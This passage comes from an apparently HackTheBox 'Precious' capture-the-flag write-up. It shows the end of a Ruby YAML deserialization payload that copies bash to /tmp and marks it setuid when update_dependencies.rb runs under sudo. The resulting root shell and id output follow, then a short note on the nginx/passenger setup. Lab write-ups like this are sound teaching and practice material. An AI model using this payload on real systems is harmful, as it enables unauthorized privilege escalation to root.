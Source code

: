                      method_id: :system
                 git_set: cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf
             method_id: :resolve
    

After I run this, there’s a file at `/tmp/0xdf`:

    
    
    henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
    sh: 1: reading: not found
    Traceback (most recent call last):
            33: from /opt/update_dependencies.rb:17:in `<main>'
    ...[snip]...
    henry@precious:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1234376 May 17 22:05 /tmp/0xdf
    

Running with `-p` gives a shell with effective UID and GID as root:

    
    
    henry@precious:/dev/shm$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
    

And I can claim `root.txt`:

    
    
    0xdf-5.1# cat root.txt
    0bc3cc28************************
    

## Beyond Root - Precious Web Server

### Goals

I was able to figure out that it’s a Ruby webserver behind nginx during
enumeration. In exploring, I’ll want to figure out some foundational stuff
about the webserver:

  * How nginx is hosting the app and how it’s redirecting to `precious.htb`;
  * How the Ruby web app runs;
  * What the Ruby web app does;
  * Why it fails to get the local web page and export it.

### Exploration

I’ll go through these in [this
video](https://www.youtube.com/watch?v=Pmdx0e6aRxU):

The short summary is that nginx is using a module named passenger. This allows
nginx to handle the Ruby application. I’ll show how nginx is doing that, as
well as the docs that show how that application is configured.

I’ll look at the Ruby app to see how it generates PDF and handles GET and POST
requests.

I’ll also see that local hosts are not blocked, but find a DNS issue, and fix
it with the `hosts` file such that I can export the main page to PDF.

[](/2023/05/20/htb-precious.html)

